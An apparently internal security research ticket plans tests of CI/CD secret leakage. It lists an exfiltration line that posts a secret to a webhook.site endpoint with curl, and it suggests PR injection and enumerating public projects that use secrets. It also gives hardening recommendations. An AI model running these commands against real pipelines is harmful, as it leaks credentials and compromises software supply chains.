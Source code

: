 # 🔐 Research Spike: Test for Secret Theft via CI Variables

**Goal:**  
Abuse CI/CD job environment variables to leak secrets (e.g., `$AWS_SECRET_ACCESS_KEY`, API tokens, internal credentials) by injecting malicious commands in build steps or pull requests.

**Why It Matters:**  
Secrets stored in CI/CD environments are often exposed to too many users or pipelines. Misconfigurations can allow an attacker or malicious insider to exfiltrate credentials using common build tools, compromising the software supply chain.

---

### 🔍 Scope
- CI/CD platforms (GitHub Actions, GitLab CI, Jenkins, CircleCI, etc.)
- Build jobs and runners with access to sensitive environment variables
- Build logs, artifact storage, and injected runtime environments

---

### ✅ Tasks
- [ ] Identify jobs or repos with access to sensitive secrets (AWS keys, tokens)
- [ ] Inject malicious print or exfil commands:
  - `echo $AWS_SECRET_ACCESS_KEY`
  - `curl -X POST https://webhook.site/<id> -d $SECRET`
- [ ] Check logs and artifacts for exposure
- [ ] Evaluate permissions on who can trigger jobs or edit pipeline configs
- [ ] Optional:
  - Use PR injection (GitHub Actions) or merge-triggered job changes
  - Enumerate public projects that use secrets in workflows

---

### 🎯 Deliverables
- Table of jobs and exposed secrets via ENV
- Screenshot or redacted logs of successful secret leaks
- Recommendations:
  - Restrict access to protected variables
  - Mask secrets in logs
  - Use short-lived credentials (OIDC, vault-injected tokens)
  - Enforce CI linting or signed workflows

---

### 📚 Reference Materials
- GitHub Actions Secrets: https://docs.github.com/en/actions/security-guides/encrypted-secrets  
- GitLab CI Variables: https://docs.gitlab.com/ee/ci/variables/  
- CI/CD secrets best practices: https://blog.gitguardian.com/  
- Webhook testing: https://webhook.site/  
- Insecure defaults: https://blog.aquasec.com/ci-cd-pipeline-security-risks

---

### 🏷️ Tags / Labels
`ci-cd` `secrets` `env-vars` `supply-chain` `injection` `github-actions` `gitlab` `jenkins`

---

### 📈 Effort Level
**Medium (M)** — low-code injection effort, but success depends on pipeline visibility and environment isolation.

---

### ✅ Acceptance Criteria
- [ ] At least 3 CI pipelines tested across different environments
- [ ] One example of successful ENV variable exposure documented
- [ ] Redacted evidence and hardening steps shared in internal wiki/report
